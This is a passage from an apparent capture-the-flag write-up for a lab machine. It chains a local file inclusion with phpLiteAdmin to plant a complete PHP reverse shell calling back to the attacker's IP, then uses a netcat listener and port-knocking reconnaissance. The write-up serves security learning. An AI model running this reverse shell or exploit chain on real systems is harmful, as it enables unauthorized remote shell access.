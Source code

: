    ![image-20201024224204171](.Report.assets/image-20201024224204171.png)

5. Once logged into the Department page, there was a link to a text document that was vulnerable to LFI.  This page appears to only load a file if it has `ninevahNotes` in the path, however.  I combined this with the phpliteAdmin vulnerability above and I used phpLiteAdmin to create a database called `ninevehNotes.php` and a table within it that had one field of text value with the default value of the code below, adapted from Pentestmonkey's Reverse PHP Shell script:

   ```php
   <?php set_time_limit (0); $VERSION = "1.0"; $ip = "10.10.14.29"; $port = 8001; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { printit("ERROR: Cannot fork"); exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { printit("Error: Cannot setsid()"); exit(1); } $daemon = 1; } else { printit("WARNING: Failed to daemonise.  This is quite common and not fatal."); } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { printit("$errstr ($errno)"); exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { printit("ERROR: Cannot spawn shell"); exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); printit("Successfully opened reverse shell to $ip:$port"); while (1) { if (feof($sock)) { printit("ERROR: Shell connection terminated"); break; } if (feof($pipes[1])) { printit("ERROR: Shell process terminated"); break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { if ($debug) printit("SOCK READ"); $input = fread($sock, $chunk_size); if ($debug) printit("SOCK: $input"); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { if ($debug) printit("STDOUT READ"); $input = fread($pipes[1], $chunk_size); if ($debug) printit("STDOUT: $input"); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { if ($debug) printit("STDERR READ"); $input = fread($pipes[2], $chunk_size); if ($debug) printit("STDERR: $input"); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); function printit ($string) {  if (!$daemon) { print "$string\n"; } } ?>
   ```

6. I started a netcat listener and visited the URL http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php to trigger a reverse shell.
   ![image-20201025145601356](.Report.assets/image-20201025145601356.png)

7. While browsing the system, I found an email for amrois in `/var/mail/amrois` which gave a clue about 'knocking'.  I also noticed knockd was running on this system, so that clued me in to try and knock on these ports.  I verified this by checking /etc/knockd.conf to see that this opens up port 22 for SSH.  I knocked on these ports to confirm this, but was refused connection because ssh requires a public key:
